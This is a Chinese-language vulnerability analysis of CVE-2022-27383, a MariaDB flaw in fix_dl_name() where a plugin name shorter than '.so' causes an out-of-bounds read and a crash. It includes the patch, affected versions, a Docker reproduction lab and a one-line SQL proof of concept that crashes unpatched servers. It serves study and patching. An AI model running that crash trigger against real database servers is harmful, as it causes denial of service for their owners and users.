



# CVE-2022-27383 CWE-416 MariaDB DoS

## 漏洞背景

- **MariaDB ：**一款开源关系型数据库管理系统，由 MySQL 的创始人开发，与 MySQL 高度兼容。它具有高性能、高安全性、易于使用等特点，支持多种存储引擎，可保障数据的可靠存储与高效读写。同时，MariaDB 还具备强大的查询优化能力，能增强数据库性能，广泛应用于多种行业领域，为数据存储和管理提供有力支持。
- **CWE-416（Use After Free）：**指在软件中使用已经释放的内存区域的漏洞。当程序动态分配的内存被释放后，若未将指向该内存的指针设置为无效状态（如置为 NULL），后续代码仍可能错误地访问该指针，此时该内存可能已被重新分配给其他用途，导致不可预测的行为，如数据损坏、程序崩溃或代码执行等。这种漏洞通常源于内存管理不当，是严重的安全问题，易被攻击者利用来破坏程序的稳定性和安全性。

## 漏洞原理

MariaDB 在处理插件名时未正确检查长度，在 `fix_dl_name()` 函数中，当插件名长度小于 `.so` 后缀长度（3 字节）时，程序依然执行字符串末尾比较操作，导致指针发生负偏移并访问非法内存，最终在`my_strcasecmp_8bit`中触发 Use-After-Poison 漏洞，导致崩溃。

## 漏洞定位

分析 MariaDB 10.6.3 源码：

在 sql\sql_plugin.cc 文件，第 373 行`fix_dl_name`函数用于补全插件文件名，若没有以 `.so` 结尾，则追加该后缀。确保一个动态链接库 (plugin) 的文件名以标准扩展名结尾。

其中第 375 行，`SO_EXT` 是宏，定义为 `".so"`。所以 `so_ext_len = 3`，表示 `.so` 的实际长度。

第 376 行的判断语句用于判断文件名末尾是不是 `.so`，代码会从字符串的末尾向前偏移 `.so` 的长度（3个字符），然后进行比较。但是其没有验证 `dl->length >= so_ext_len`。如果用户提供一个长度小于3的插件名，会导致负偏移访问，指针超出合法范围，导致读取未初始化或已释放的内存（**Use-After-Poison**）。

```cpp
static void fix_dl_name(MEM_ROOT *root, LEX_CSTRING *dl)
{
    // 375 行
  const size_t so_ext_len= sizeof(SO_EXT) - 1;
    // 376 行 ********** 漏洞点 ************
  if (my_strcasecmp(&my_charset_latin1, dl->str + dl->length - so_ext_len, SO_EXT))
  {
      // 从 root 指向的内存池中分配一块新的、足够大的内存
    char *s= (char*)alloc_root(root, dl->length + so_ext_len + 1);
      // 将原始文件名复制到新分配的内存 s 中
    memcpy(s, dl->str, dl->length);
      // 将后缀 .so（包括它的 \0）拼接到新字符串的末尾
    strcpy(s + dl->length, SO_EXT);
      // 更新 dl 结构，使其 str 指针指向新的内存地址 s
    dl->str= s;
      // 更新 dl 的长度
    dl->length+= so_ext_len;
  }
}
```

## 漏洞修复


升级到 MariaDB 10.2.44、10.3.35、10.4.25、10.5.16、10.6.8、10.7.4、10.8.3 或包含 MDEV-26323 修复程序的更高支持版本。限制不受信任的用户提交任意 SQL 的能力，直到服务器得到修补。

新增长度检查：当字符串长度小于扩展名长度时，不再执行带负偏移的比较，从而避免非法越界读取。

```cpp
if (dl->length < so_ext_len ||
    my_strcasecmp(&my_charset_latin1, dl->str + dl->length - so_ext_len, SO_EXT))
```

## 影响范围


**受影响的版本：** MariaDB：

- 10.2.0 至 10.2.43
- 10.3.0 至 10.3.34
- 10.4.0 至 10.4.24
- 10.5.0 至 10.5.15
- 10.6.0 至 10.6.7
- 10.7.0 至 10.7.3
- 10.8.0 至 10.8.2

**影响组件：** `my_strcasecmp_8bit`

## 环境搭建

启动 Docker 环境，MariaDB 版本为 10.6.3，管理员用户为 root，密码为 12345，存在一个数据库 test_db，开放端口为 3306，容器中已存在 PoC 文件 CVE-2022-27383-PoC.sql 。

```txt
NIST: NVD Base Score: 7.5 HIGHVector:  CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:H
```

```txt
cpe:2.3:a:mariadb:mariadb:10.6.3:*:*:*:*:*:*:*
```



## 漏洞复现

1、进入容器命令行

```bash
docker exec -it mariadb-10.6.3 bash
```

2、使用 root 用户登录并连接数据库 test_db，密码为 12345

```sql
mariadb -u root -p test_db
```

3、执行 PoC 文件 CVE-2022-27383-PoC.sql，在 Debug 模式下的 MariaDB 中可以看到遇到错误且容器自动关闭

```sql
source CVE-2022-27383-PoC.sql
```



4、查看容 MariaDB 崩溃日志，可以看到 UAF 发生导致崩溃，且问题在`ctype-simple.c`的组件`my_strcasecmp_8bit`中，与漏洞原理对应。

```bash
docker logs mariadb-10.6.3
```



## POC分析

```sql
INSTALL PLUGIN DEALLOCATE SONAME 'x' ;
```

PoC 尝试安装一个名为 `x` 的插件，而在这个过程中，MariaDB 会调用函数 `fix_dl_name()` 给插件名补全 `.so`。在函数内部，dl->str = "x"、dl->length = 1、SO_EXT = ".so"、so_ext_len = 3，计算`dl->str + dl->length - so_ext_len`时值为 dl->str - 2。代码会试图读取 `dl->str` 指向的内存地址**之前**的两个字节。最终导致 MariaDB 服务器进程崩溃。

## 参考链接


[NVD - CVE-2022-27383](https://nvd.nist.gov/vuln/detail/CVE-2022-27383)

[[MDEV-26323\] use-after-poison issue of MariaDB server - Jira](https://jira.mariadb.org/browse/MDEV-26323)

[MDEV-26323 use-after-poison issue of MariaDB server · MariaDB/server@c05fd70](https://github.com/MariaDB/server/commit/c05fd700970ad45735caed3a6f9930d4ce19a3bd)
